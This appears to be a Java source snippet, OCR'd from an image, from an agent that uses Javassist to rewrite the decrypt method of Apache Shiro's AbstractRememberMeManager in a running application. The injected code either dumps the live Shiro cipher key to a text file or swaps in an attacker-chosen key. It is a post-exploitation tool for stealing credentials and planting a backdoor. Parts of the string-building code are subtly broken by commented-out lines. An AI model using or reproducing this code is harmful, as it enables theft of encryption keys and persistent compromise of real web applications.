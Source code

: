 ```plain
        try {
            cls = Class.forName("org.apache.shiro.mgt.AbstractRememberMeManager");
            for(int i = 0; i < classes.length; i++) {
                Class clazz = classes[i];
                try {
                    // 判断类clazz是否是org.apache.shiro.mgt.AbstractRememberMeManager.class的子类、实现类
                    if(cls.isAssignableFrom(clazz)){
                        ClassPool classPool = new ClassPool(true);
                        classPool.insertClassPath(new ClassClassPath(clazz));
                        classPool.insertClassPath(new LoaderClassPath(clazz.getClassLoader()));
                        CtClass ctClass = classPool.get(clazz.getName());
                        CtMethod ctMethod = ctClass.getMethod("decrypt", "([B)[B");
                        ctMethod.insertBefore(String.format("java.lang.String temp = \"%s\";\n" +
                                "if(temp.endsWith(\"\\.txt\")){" +
                                "try {\n" +
                                "   " +
                                "   java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream(new java.io.File(temp),true);\n" +
                                "   fileOutputStream.write(\"Shiro key: \".getBytes());\n" +
//                                "   java.lang.System.out.println(\"get shiro keying\");\n" +
//                                "   java.lang.System.out.println(org.apache.shiro.codec.Base64.encodeToString(getDecryptionCipherKey()));\n" +
                                "   fileOutputStream.write(org.apache.shiro.codec.Base64.encodeToString(getDecryptionCipherKey()).getBytes());\n" +
                                "   fileOutputStream.write(\"\\n\".getBytes());\n" +
                                "   fileOutputStream.flush();\n" +
                                "   fileOutputStream.close();\n}" +
                                "catch(java.lang.Throwable e){\n" +
//                                " e.printStackTrace();\n" +
                                "}\n}else{\n" +
                                "try{\n" +
                                "setCipherKey(org.apache.shiro.codec.Base64.decode(temp));\n" +
//                                "java.lang.System.out.println(\"set shiro key ing!\");\n}
                                "catch(java.lang.Throwable e){\n" +
//                                "e.printStackTrace();" +
                                "\n}\n}\n",arg2));
                        inst.redefineClasses(new ClassDefinition(clazz,ctClass.toBytecode()));
                        ctClass.detach();
                    }


                }catch (Throwable e){
                    e.printStackTrace();
                }
            }
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }

    }
```
